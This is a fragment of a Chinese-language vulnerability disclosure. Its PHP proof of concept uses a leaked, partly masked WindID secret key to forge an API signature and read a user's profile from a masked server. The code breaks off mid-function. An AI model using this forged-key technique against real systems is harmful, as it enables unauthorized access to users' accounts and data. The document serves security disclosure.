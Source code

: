 拿到这个 key，我可以做的事情太多了，用户体系内的所有事情我都可以做了。

## 漏洞证明

![](img/16220929812927fb46cb3f7f5d75bd5ba3c50dee.jpg)

拿到这个 key，我可以做的事情太多了，用户体系内的所有事情我都可以做了。

在官网测试了一下，拿到 key 后测试一下读取一个用户的资料：

```
<?php

$secretkey = '308c6c43a*****279dd61dd80e8d59bd';

$c = 'user';

$a = 'get';

$data = array('uid'=>'658925');

$time = time();

$key = appKey('1', time(), $secretkey, array('userid'=>658925), $data);

echo post('http://**.**.**.**/windid/index.php?m=api&c='.$c.'&a='.$a.'&windidkey='.$key.'&time='.$time .'&clientid=1&userid=658925',$data);

function post($uri,$data) {

    $ch = curl_init ();

    curl_setopt ( $ch, CURLOPT_URL, $uri );

    curl_setopt ( $ch, CURLOPT_POST, 1 );

    curl_setopt ( $ch, CURLOPT_HEADER, 0 );

    curl_setopt ( $ch, CURLOPT_RETURNTRANSFER, 1 );

    curl_setopt ( $ch, CURLOPT_POSTFIELDS, $data );

    $return = curl_exec ( $ch );

    curl_close ( $ch );

    return $return;

}

function appKey($apiId, $time, $secretkey, $get, $post) {

```